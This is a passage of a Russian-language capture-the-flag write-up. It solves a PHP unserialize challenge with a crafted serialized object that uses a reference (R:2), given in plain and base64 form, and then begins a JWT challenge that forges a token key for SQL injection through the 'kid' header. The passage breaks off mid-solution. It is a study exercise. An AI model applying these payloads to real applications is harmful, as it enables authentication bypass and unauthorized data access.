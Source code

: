 ```
a:2:{i:0;s:3:"foo";i:1;R:2;}
The important part here is the R:2; element. It means “reference to the second value”. What is the second value? The whole array is the first value, the first index (s:3:"foo") is the second value, so that’s what is referenced.
```

Идея заключается в том, чтобы вместо передачи явного значения, ссылаться на другой параметр.

В поле secret, можно передать любое значение, так как оно перезапишется.
Попробуем передать следующую строку:

`O:8:"Treasure":2:{s:6:"secret";s:1:"a";s:3:"key";R:2;}`

Она же в base64:
`Tzo4OiJUcmVhc3VyZSI6Mjp7czo2OiJzZWNyZXQiO3M6MToiYSI7czozOiJrZXkiO1I6Mjt9`

Передадим наш ключ, и получим секрет
`deteact{04546f3944dd0c8ffe854ea5699cf2fd}`

### 2. BugBounty platform v3

Залогинившись на сайте, видим пост do not look, к которому у нас нет доступа, и который скорее всего надо прочитать.
На самом сайте нет никакого взаимодействия, а в cookie найдем jwt токен.

В его Header будет поле kid
```
{
  "alg": "HS256",
  "typ": "JWT",
  "kid": "3133773313-000000"
}
```
А в его Payload поле secure_check
```
{
  "username": "test",
  "secure_check": "888999000",
  "iat": 1682844691
}
```

Взломать его с помощью hashcat не получилось, но можно попробовать один из видов атаки:
SQLi в kid.

В jwt editor создадим новый ключ, а в поле "k" запишем последовательность, в base64 для дальнейшей инъекции.
`base64(MORS) = TU9SUw==`

```
{
    "kty": "oct",
    "kid": "2b3457a9-7fbb-493e-9bf2-6bf00d05c7cd",
    "k": "TU9SUw=="
}
```
